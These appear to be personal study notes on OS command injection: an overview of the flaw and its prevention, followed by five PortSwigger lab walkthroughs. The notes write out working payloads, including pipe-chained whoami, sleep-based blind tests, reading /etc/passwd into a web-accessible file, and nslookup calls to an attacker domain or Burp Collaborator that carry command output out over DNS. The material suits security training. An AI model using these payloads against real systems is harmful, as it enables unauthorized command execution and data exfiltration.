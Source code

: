 - [OS Command Injection](https://www.hackingarticles.in/comprehensive-guide-on-os-command-injection/) 
- https://portswigger.net/web-security/os-command-injection
- https://book.hacktricks.xyz/pentesting-web/command-injection

## Summary
OS command injection (also called shell injection) is a web security vulnerability that allows attackers to execute arbitrary operating system commands on the server running an application, typically with the same privileges as the application itself.

This vulnerability occurs when an application passes unsafe user-supplied data to a system shell. An attacker can inject additional commands to be executed by the operating system using shell metacharacters.

### Common Injection Characters:
- Semicolons (`;`) to terminate commands
- Ampersands (`&`, `&&`) for command chaining
- Pipes (`|`) to redirect output
- Backticks (`` ` ``) or `$()` for command substitution

### Types of OS Command Injection:
1. **In-band injection**: Results are returned directly in the application's response
2. **Blind injection**: No direct output, requires techniques like:
    - Time delays (using `sleep` or similar commands)
    - Out-of-band techniques (forcing DNS lookups or HTTP requests)
    - File operations (writing to accessible locations)

### Detection Methods
- Testing with platform-specific commands (Windows: `dir`, Unix: `ls`)
- Injecting command separators and monitoring responses
- Using time-based techniques for blind scenarios

### Exploitation Examples

- Basic injection: `& echo vulnerability confirmed &`
- Command chaining: `input=original-input && whoami`
- DNS exfiltration: `& nslookup attacker-controlled-domain.com &`
- Data exfiltration through file redirection: `& cat /etc/passwd > /var/www/html/accessible-file.txt &`

### Common Vulnerable Functions
Programming language functions that often lead to command injection:
- PHP: `system()`, `exec()`, `shell_exec()`, `passthru()`
- Python: `os.system()`, `subprocess.call()`, `subprocess.Popen()`
- Java: `Runtime.exec()`, `ProcessBuilder`
- NodeJS: `child_process.exec()`

### Prevention Techniques
1. **Avoid OS commands**: Use built-in application language functions instead
2. **Input validation**: Implement strict whitelisting
3. **Context-specific output encoding**
4. **Use safer APIs**: Instead of passing strings to shell interpreters, use safer system call APIs
5. **Run with limited privileges**: Apply least privilege principle
6. **Web Application Firewalls**: As an additional layer of defense


## **1. OS command injection, simple case**
This lab contains an [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

1. Use Burp Suite to intercept and modify a request that checks the stock level.
2. Modify the `storeID` parameter, giving it the value `1|whoami`.
3. Observe that the response contains the name of the current user.

Analysis:
	![[Pasted image 20241006185925.png]]

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |
![[Pasted image 20241006185012.png]]

## **2. Blind OS command injection with time delays**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to:
    `email=x ||ping + -c + 10 + 127.0.0.1||`

Analysis:

- after subbmiting the form we obsrve that every input field is accepted so we will find out which one it is susceptible for OS injection
	![[Pasted image 20241007180502.png]]

- for each field (name/email/subject) --> `|| sleep 10 #`  and URL encode it
	![[Pasted image 20241007180742.png]]
	![[Pasted image 20241007181105.png]]

## **3. Blind OS command injection with output redirection**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at: `/var/www/images/`

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. To solve the lab, execute the `whoami` command and retrieve the output.

1. Modify the `email` parameter, changing it to:
    `email= || whoami>/var/www/images/output.txt ||`
2. Now use Burp Suite to intercept and modify the request that loads an image of a product.
3. Modify the `filename` parameter, changing the value to the name of the file you specified for the output of the injected command:
    `filename=output.txt`
4. Observe that the response contains the output from the injected command.

Analysis:

- Confirm blind command injection
	email field  (submit feedback form page)

![[Pasted image 20241007200025.png]]

- Check where images are stored
	`GET/image?filename=x.jpg` --> /var/www/images
	![[Pasted image 20241007200116.png]]
	
-  Redirect output to file
	email= x `|| whoami > /var/www/images/output.txt #` (url encode it)
	![[Pasted image 20241007201334.png]]
	
- Check if file was created 
	`GET/image?filname=output.txt` 
	![[Pasted image 20241007201453.png]]

## 4. Blind OS command injection with out-of-band interaction

This lab contains a blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

1. Modify the `email` parameter, changing it to:
    `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
 
Analysis:
![[Pasted image 20241008193453.png]]

## 5. Blind OS command injection with out-of-band data exfiltration
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

1. Modify the `email` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
    ``email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||``
2. Go back to the Collaborator tab, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
3. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.

Analysis:
![[Pasted image 20241008194047.png]]
